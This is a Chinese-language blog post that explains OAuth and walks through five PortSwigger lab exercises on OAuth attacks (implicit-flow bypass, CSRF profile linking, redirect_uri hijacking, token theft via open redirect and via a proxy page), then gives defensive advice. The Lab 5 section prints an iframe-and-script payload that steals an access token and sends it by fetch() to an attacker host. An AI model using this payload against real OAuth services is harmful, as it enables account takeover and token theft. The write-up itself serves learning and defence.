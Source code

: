```yaml
---
layout:     post
title:      "OAuth安全学习"
subtitle:   ""
date:       2021-01-12 10:40:00
author:     "kuron3k0"
header-img: "img/home-bg-o.jpg"
tags:
    - OAuth
    - Web
---
```


OAuth是如今一种比较流行的授权机制，虽然已经出现很久了，但是一直没有详细了解过攻击手法，今天就来学习一下。

## OAuth简介
一个简单的图解，侵删
![](../img/in-post/oauth-security/oauth.jpg)

[阮一峰大佬的博客](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)说的挺清晰的了，这里就不细讲了，就用授权码的方式举一个OAuth实际应用的例子。

下面是一个用到GitHub OAuth的地方：`https://sec.today`
![](../img/in-post/oauth-security/1.png)

登陆成功，省去了重新注册的时间
![](../img/in-post/oauth-security/2.png)

看一下相关请求是什么，点击`用GitHub登录`后，从浏览器发起了第一个请求：`https://sec.today/oauth/login/github/`

重定向到GitHub进行登录：`https://github.com/login/oauth/authorize?client_id=dad4bf1a56b861bac810&redirect_uri=https%3A%2F%2Fsec.today%2Foauth%2Fcomplete%2Fgithub%2F%3Fredirect_state%3DH2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&response_type=code`

在GitHub登录完成后，返回授权码`code`，附在上一步填的`redirect_uri`后面：`https://sec.today/oauth/complete/github/?redirect_state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&code=1c02c1234d182db57bd5&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw`

最后，`sec.today`带着授权码拿到我们`GitHub`账号的信息，我们就用`GitHub`的身份完成了在`sec.today`上的登陆



## PortSwigger靶场
### 【LAB 1】Authentication bypass via OAuth implicit flow

题目要求：在`implicit`形式的OAuth中进行认证绕过

`implicit`方式的所有操作都是在客户端完成，最后认证完成得到的`access_token`也是会返回到客户端，所以只需要把`access_token`绑定为任意需要操作的用户即可

点击登录
![](../img/in-post/oauth-security/3.png)

返回`access_token`
![](../img/in-post/oauth-security/4.png)

把`access_token`和任意用户绑定
![](../img/in-post/oauth-security/5.png)


### 【LAB 2】Forced OAuth profile linking

题目要求：获取`admin`权限（`admin`已登录第三方应用，且会访问我们构造的任何链接）

所以很明显是要`CSRF`了，根据OAuth的流程可以知道，我们要做的就是用我们的OAuth信息去绑定`admin`的第三方应用的账号

首先先用我们自己的账号进行OAuth登录，可以看到返回了一个`code`，但这个时候要把这个请求拦截下来，构造完`CSRF Payload`后drop掉，然后让`admin`去访问
![](../img/in-post/oauth-security/6.png)

当`admin`访问后，完成绑定。然后我们再以自己的账号做OAuth登录，即可得到`admin`权限
![](../img/in-post/oauth-security/7.png)


### 【LAB 3】OAuth account hijacking via redirect_uri

题目要求：获取`admin`权限（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

构造`CSRF Payload`，`redirect_uri`设置为我们可控的地址
![](../img/in-post/oauth-security/8.png)

得到`admin`的`code`，直接登录
![](../img/in-post/oauth-security/9.png)

`admin`权限
![](../img/in-post/oauth-security/10.png)

### 【LAB 4】Stealing OAuth access tokens via an open redirect

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

这题跟上一题差不多，就是`redirect_uri`做了一些校验，然后OAuth用`implicit`模式了

`redirect_uri`不能任意指定了，试了几种方式似乎都不行，然后发现`/post/next`有重定向漏洞，且url路径检查可用`/../`绕过，这个问题解决；然后系统的`access_token`是放在url的`fragment`中的，所以我们的payload需要把它提取出来，最终结果如下：
![](../img/in-post/oauth-security/11.png)

`admin`访问后得到`access_token`
![](../img/in-post/oauth-security/12.png)

用`access_token`拿到`admin`的`apikey`
![](../img/in-post/oauth-security/13.png)

### 【LAB 5】Stealing OAuth access tokens via a proxy page

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

url校验沿用了上一题的方式，然后重定向漏洞没有了。注意到评论的页面`/post/comment/comment-form`，有一个向`父页面`发送自己url的操作，所以如果我们可以让`admin`访问OAuth登录的链接，就会把`access_token`发到评论页面，然后评论页面就会把`token`传到我们的恶意父页面
![](../img/in-post/oauth-security/14.png)

构造payload
```html
<iframe src="https://ac431f851f15ecdb807b43d102b500f3.web-security-academy.net/auth?client_id=j77c7udyz47s8jpf2mwu7&redirect_uri=https://acc41f8d1ff7ecd9800b438f009000bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener("message",function(e){
        var token=e.data.data;
        fetch("https://aca51ffb1f26ec2680814365018400cb.web-security-academy.net/"+btoa(token));
    },false);
</script>
```
接收到数据
![](../img/in-post/oauth-security/15.png)

解码得到token
![](../img/in-post/oauth-security/16.png)

## 防御
OAuth服务提供者需要让第三方应用提供url的白名单、用`state`等参数防止类CSRF攻击、确认最后请求的`scope`是跟最开始的请求是一致的

第三方应用也要用`state`防止CSRF、注意`code`通过`Referer`泄漏，此外移动端、桌面应用可能会包含`client_secret`，所以需要`PKCE`对`code`进行保护

[ietf的草稿](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)中还提到了一些其他的攻击场景，像`PKCE
 downgrade attack`、`307 redirection`等等，有合适的机会再研究一下

## 参考
- [https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
- [http://www.ruanyifeng.com/blog/2019/04/oauth_design.html](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)
